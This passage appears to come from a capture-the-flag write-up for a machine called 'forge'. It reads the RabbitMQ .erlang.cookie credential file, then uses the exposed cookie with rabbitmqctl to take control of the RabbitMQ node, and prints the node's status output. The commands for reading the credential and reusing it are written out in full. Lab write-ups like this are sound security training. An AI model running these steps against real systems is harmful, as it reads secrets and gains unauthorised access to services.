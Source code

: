 We found a `.erlang.cookie` file, let's read it:

```
azrael@forge:~$ cat /var/lib/rabbitmq/.erlang.cookie
R2z1G0FXf6Rk2H2w
```

Now, from our Nmap scan at the beginning, we now that rabbitmq node is running on this server, using the erlang cookie we can interact with the node, let's add `forge` to `/etc/hosts`, and then, we can use `rabbitmqctl`:

```
sudo rabbitmqctl --erlang-cookie 'R2z1G0FXf6Rk2H2w' --node rabbit@forge status

Status of node rabbit@forge ...
[]
Runtime

OS PID: 1193
OS: Linux
Uptime (seconds): 4760
Is under maintenance?: false
RabbitMQ version: 3.9.13
RabbitMQ release series support status: see https://www.rabbitmq.com/release-information
Node name: rabbit@forge
Erlang configuration: Erlang/OTP 24 [erts-12.2.1] [source] [64-bit] [smp:2:2] [ds:2:2:10] [async-threads:1] [jit]
Crypto library: 
Erlang processes: 393 used, 1048576 limit
Scheduler run queue: 1
Cluster heartbeat timeout (net_ticktime): 60

Plugins

Enabled plugin file: /etc/rabbitmq/enabled_plugins
Enabled plugins:

 * rabbitmq_management
 * amqp_client
 * rabbitmq_web_dispatch
 * cowboy
 * cowlib
 * rabbitmq_management_agent

Data directory

Node data directory: /var/lib/rabbitmq/mnesia/rabbit@forge
Raft data directory: /var/lib/rabbitmq/mnesia/rabbit@forge/quorum/rabbit@forge

Config files

 * /etc/rabbitmq/rabbitmq.conf

Log file(s)

 * /var/log/rabbitmq/rabbit@forge.log
 * /var/log/rabbitmq/rabbit@forge_upgrade.log
 * <stdout>
```
